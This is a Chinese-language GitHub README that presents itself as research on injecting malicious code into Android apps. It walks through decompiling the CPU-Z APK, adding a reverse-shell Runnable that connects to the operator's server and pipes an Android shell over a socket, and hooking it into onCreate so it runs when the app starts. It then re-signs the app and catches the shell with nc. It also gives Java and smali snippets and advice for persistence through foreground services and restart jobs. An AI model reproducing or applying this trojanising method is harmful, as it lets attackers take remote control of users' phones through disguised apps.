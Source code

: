 # ApkInjectionResearch
**一个实现向安卓程序中注入恶意代码的研究。**

  研究的起因是看见[520_APK_HOOK](https://github.com/ba0gu0/520apkhook/)这个项目，感觉很有意思，于是想研究一下安卓程序的执行流程，不同框架的区别，以及在不同版本环境下的代码注入应该怎么做。

---

### 目前已经实现的功能
1. 在 MainActivity.smali 的 onCreate 方法中注入代码，随着应用启动而自启动。
2. 在 ShellRunnable 中编写使用 socket 连接反弹 Shell 的逻辑。
3. 反弹 shell 仅在 app 进程存活期间有效，app 被杀死或卸载后连接会断开。
4. 可以执行大部分命令，有一些命令好像有bug？？？

---

### 对研究内容的理解
#### 1. 操作流程
1. **反编译 APK**  
   - 使用 apktool 将原始 APK (CPU-Z) 反编译，得到 smali 代码。

2. **插入自定义 smali 代码**  
   - 在 MainActivity 同级目录下新增了 ShellRunnable.smali，实现了一个 `Runnable`，用于反弹 shell。
   - 在 `MainActivity.smali` 的 `onCreate` 方法中插入如下代码：
     
     ```smali
     new-instance v0, Lcom/cpuid/cpu_z/ShellRunnable;
     invoke-direct {v0}, Lcom/cpuid/cpu_z/ShellRunnable;-><init>()V
     new-instance v1, Ljava/lang/Thread;
     invoke-direct {v1, v0}, Ljava/lang/Thread;-><init>(Ljava/lang/Runnable;)V
     invoke-virtual {v1}, Ljava/lang/Thread;->start()V
     ```

3. **重新打包并签名 APK**  
   - 用 apktool 重新打包修改后的 APK，并用自签名证书工具 [dx-signer](https://github.com/dingxiangtech/dx-signer) 签名。

3. **监听端口反弹shell**
   - 我使用的是花生壳的内网穿透（体验版就够用了）， windows 端配置好 nc 打开监听，安装好花生壳连接上。
   ![image](https://github.com/user-attachments/assets/6e2c5307-4013-4ff9-a713-66d30f918087)
   - 打开应用就能连接上 shell 了。
   ![image](https://github.com/user-attachments/assets/ab0b72d1-2fe1-46c9-835f-c6ca923572d8)

---

#### 2. 程序运行流程
1. **应用启动**  
   用户启动应用，`MainActivity` 的 `onCreate` 方法被调用。

2. **启动反弹 shell 线程**  
   - `onCreate` 方法中新建并启动了一个 `ShellRunnable` 线程。

3. **ShellRunnable 线程执行反弹 shell**  
   - 线程尝试连接你的服务器（如 `yourip:port`）
   - 连接成功后，启动本地 `sh` 进程（Android shell）
   - 建立 socket 与 shell 的输入输出流转发。
   - 服务器端输入通过 socket 传给 shell，shell 的输出通过 socket 传回服务器。

4. **远程控制**  
   - 在服务器端通过 shell 执行命令，下载文件、查看目录等，权限等同于该 app 的权限（非 root）。

---

#### 3. 权限与限制
- 由于 Android 不允许普通 app 注册系统级自启动（如 Linux 的 rc.local、init.d）。反弹 shell 的权限也仅限于该 app 的沙箱权限，不能越权访问系统或其他 app 的数据。
  
- 所以就算用动态加载方法保存到 `/storage/emulated/0` 的文件，其他 app 可能能看到，但也无法直接“激活”你的 app 或让你的 shell 常驻，因为只有 root 权限或系统漏洞才能实现真正的权限维持。
  
- 后面也看过一些方法来做权限维持，比如说连接到 shell 之后及时使用 msf 上传并执行 .sh 脚本[https://cloud.tencent.com/developer/article/1043684](https://cloud.tencent.com/developer/article/1043684)
  
- 又或者新建一个继承自 `android.app.Service` 的 smali 类（如 ShellService.smali）。在 onStartCommand 里启动 ShellRunnable 线程。
  
- 在 AndroidManifest.xml 注册 Service，并加 `<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>`（Android 9+）。启动 Service 时用 startForeground，这样系统不会轻易回收。
  
- 原理就是将 ShellRunnable 放到 Service 中运行，而不是 Activity ，将 Service 设置为前台服务（Foreground Service），这样即使应用切后台，线程也不会被系统轻易杀死。

```Java
public class ShellService extends Service {
    public int onStartCommand(Intent i, int f, int s) {
        new Thread(new ShellRunnable()).start();
        // 前台服务（Android 8+必须）
        startForeground(1, new Notification());
        return START_STICKY;
    }
    public IBinder onBind(Intent i) { return null; }
}
```

- 如果 Service 被杀死，可以用 JobService 或 AlarmManager 定时重启 Service，提升存活率。
  
- 最后的方法就是把设备 root 了，就可以用 native 守护进程方式。

---

#### 3. 代码优化
因为一开始注入的时候经常出现闪退或者连接断开的问题，所以使用了 sleep 来减慢数据处理的速度（虽然好像没啥影响，纯折腾qaq）
所以可以把下面这些代码优化掉，当然要是不想删可以把 `const-wide/16 v9, 1` 的延迟改低，或者设置缓冲区来读取多个字节。

```smali
    :sleep
    invoke-virtual {v8}, Ljava/io/OutputStream;->flush()V
    invoke-virtual {v6}, Ljava/io/OutputStream;->flush()V
    const-wide/16 v9, 1
    invoke-static {v9, v10}, Ljava/lang/Thread;->sleep(J)V
    goto :loop
    :try_end_0
    .catch Ljava/lang/Exception; {:try_start_0 .. :try_end_0} :catch_0
```

---

### 未来的研究方向
现在也只实现了这一个传统的 onCreate() 注入方式，但是在 Flutter 应用中， UI 由 Flutter 引擎渲染，MainActivity 只是一个原生容器。

此时传统的 onCreate() 主要初始化 Flutter 环境，而不是应用主逻辑的入口点。所以还要不断尝试是在 <init> 构造器中注入还是在 F()、 onCreate() 方法中更合适。

**除了实现代码注入，还可以玩一些骚操作，类似于 MSF 里面的 `android/meterpreter/reverse_tcp` 模块，可以实现加密传输、反射调用、动态加载、持久化、甚至可以集成一些权限提升的功能。**
